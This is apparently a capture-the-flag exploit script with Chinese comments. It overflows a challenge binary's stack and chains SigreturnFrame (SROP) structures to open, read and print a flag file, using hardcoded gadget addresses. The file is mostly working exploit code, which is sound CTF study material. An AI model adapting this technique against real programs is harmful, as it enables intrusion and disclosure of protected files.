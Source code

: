     lv = 0x000000000040074e
    rsir15 = 0x0000000000400811
    rdi =0x0000000000400813
    pp6 = 0x40080A
    read = 0x400799
    bss = 0x601500
    r3 = 0x004007F0
    nothing = 0x040082c
    syscall = 0x004005B0
    srop = 0x400750
    
    frame = SigreturnFrame()
    frame.rax = 0x20
    frame.rdi = 0
    frame.rsi = 0 #rdi
    frame.rdx = bss #rsi
    frame.rcx = 0x400 #rdx
    frame.rip = syscall
    frame.rsp = bss
    #上面这些是设置寄存器参数。
    #但是由于是call syscall这个库函数，而不是直接syscall
    #寄存器会存在一些偏移，要经过调试得出
    #（如上，例如rsi实际上存到rdi去了，rdx的存到rsi了）
    
    sl(b'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaa'+p64(0x601020)+p64(rdi)+p64(0xf)+p64(syscall)+bytes(frame)+b'flag\x00')
    #这边使用rdi传递0xf参数给syscall，进行SROP
    #（这里为什么不直接orw？因为无法直接控制rdx，ret2csu行不通，卡在call r12那里，具体原因赛后看看）
    ##############占个位置，到时候搞清楚了插上旗子【   】############3
    #所以用srop走
    
    flag = 0x601610
    frame2 = SigreturnFrame()
    frame2.rax = 0x20
    frame2.rdi = 2 #rax
    frame2.rsi = flag #rdi
    frame2.rdx = 0 #rsi
    frame2.rcx = 0x20 #rdx
    frame2.rip = syscall
    frame2.rsp = flag+8
    
    flag = 0x601610
    frame3 = SigreturnFrame()
    frame3.rax = 0x20
    frame3.rdi = 0 #rax
    frame3.rsi = 3 #rdi
    frame3.rdx = bss+0x400 #rsi
    frame3.rcx = 0x80 #rdx
    frame3.rip = syscall
    frame3.rsp = 0x601728
    
    flag = 0x601610
    frame4 = SigreturnFrame()
    frame4.rax = 0x20
    frame4.rdi = 1 #rax
    frame4.rsi = 1 #rdi
    frame4.rdx = bss+0x400 #rsi
    frame4.rcx = 0x80 #rdx
    frame4.rip = syscall
    frame4.rsp = 0x601838
    #直接设置参数打orw
    sme = p64(rdi)+p64(0xf)+p64(syscall)
    pause()
    sl(sme+bytes(frame2)+b'flag\x00\x00\x00\x00'+sme+bytes(frame3)+sme+bytes(frame4)+p64(0xdeadbeef))
    #栈溢出
    